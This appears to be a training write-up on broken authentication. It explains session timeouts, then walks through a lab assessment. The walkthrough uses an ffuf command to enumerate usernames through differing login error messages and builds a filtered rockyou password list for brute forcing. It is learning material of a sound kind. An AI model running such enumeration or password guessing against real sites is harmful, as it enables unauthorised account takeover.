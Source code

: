 ## Improper Session Timeout

Lastly, a web application must define a proper [Session Timeout](https://owasp.org/www-community/Session_Timeout) for a session token. After the time interval defined in the session timeout has passed, the session will expire, and the session token is no longer accepted. If a web application does not define a session timeout, the session token would be valid infinitely, enabling an attacker to use a hijacked session effectively forever.

For the security of a web application, the session timeout must be appropriately set. Because each web application has different business requirements, there is no universal session timeout value. For instance, a web application dealing with sensitive health data should probably set a session timeout in the range of minutes. In contrast, a social media web application might set a session timeout of multiple hours.

# Skills Assesment

![](Pasted%20image%2020250316193708.png)

I'll register a new account:

![](Pasted%20image%2020250316193951.png)

I got the password policy rules:

![](Pasted%20image%2020250316194016.png)

I set up: `gitblanc:1qwertyuiopA`. Then I logged in:

![](Pasted%20image%2020250316194156.png)

As I didn't find anything to escalate, I'll noticed something weird in the login form. If you put a valid username and wrong password yo'll get this message: `Invalid credentials.`, but if you put both wrong username and password you get this message: `Unknown username or password.`:

![](Pasted%20image%2020250316195409.png)

![](Pasted%20image%2020250316195444.png)

So I'll use **ffuf** to enumerate for users:

```shell
ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.59.30:35039/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown username or password." -s

[redacted]
gladys
```

So now, as the password policy establish, I'll generate a custom wordlist and try to fuzz her password:

```shell
grep '[[:digit:]]' /usr/share/wordlists/rockyou.txt | grep '[[:lower:]]' | grep '[[:upper:]]' | grep '[[:alnum:]]' | grep '^.\{12\}$' > custom_wordlist.txt

wc -l custom_wordlist.txt 

20453 custom_wordlist.txt
```
